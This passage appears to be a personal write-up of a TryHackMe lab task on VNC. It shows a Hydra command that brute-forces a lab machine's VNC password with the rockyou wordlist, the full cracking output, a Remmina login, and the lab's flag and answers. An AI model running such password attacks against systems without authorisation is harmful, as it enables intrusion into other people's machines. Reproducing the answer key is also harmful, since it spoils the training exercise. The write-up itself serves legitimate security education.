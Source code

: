 ![You can click cancel if asked to unlock your login keyring.](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/f1f0cf436eed0c2743b7a400cd4fffb4.png)  

We need to select the VNC protocol and type the IP address of the target system, as shown in the figure below.

![To connect to a VNC server using Remmina, you need to select the VNC protocol and type the IP address of the target.](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/14a98c766275f384149522d673a02399.png)  

Answer the questions below

Use Hydra to find the VNC password of the target with IP address `MACHINE_IP`. What is the password?

The VNC server does not use a username.

```
┌──(kali㉿kali)-[~]
└─$ hydra -s 5900 -P /usr/share/wordlists/rockyou.txt -t 16 10.10.51.185 vnc 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-17 23:33:35
[WARNING] you should set the number of parallel task to 4 for vnc services.
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking vnc://10.10.51.185:5900/
[STATUS] 450.00 tries/min, 450 tries in 00:01h, 14343949 to do in 531:16h, 16 active
[5900][vnc] host: 10.10.51.185   password: 1q2w3e4r
[STATUS] attack finished for 10.10.51.185 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-17 23:35:56

```

*1q2w3e4r*

Using a VNC client on the AttackBox, connect to the target of IP address `MACHINE_IP`. What is the flag written on the target’s screen?  

You can use Remmina to connect to your target using VNC with the password that you have found.

![[Pasted image 20221217233717.png]]
![[Pasted image 20221217233740.png]]
![[Pasted image 20221217233807.png]]

![[Pasted image 20221217233835.png]]

*THM{I_SEE_YOUR_SCREEN}*

If you liked the topics presented in this task, check out these rooms next: [Protocols and Servers 2](https://tryhackme.com/room/protocolsandservers2), [Hydra](https://tryhackme.com/room/hydra), [Password Attacks](https://tryhackme.com/room/passwordattacks), [John the Ripper](https://tryhackme.com/room/johntheripper0).   
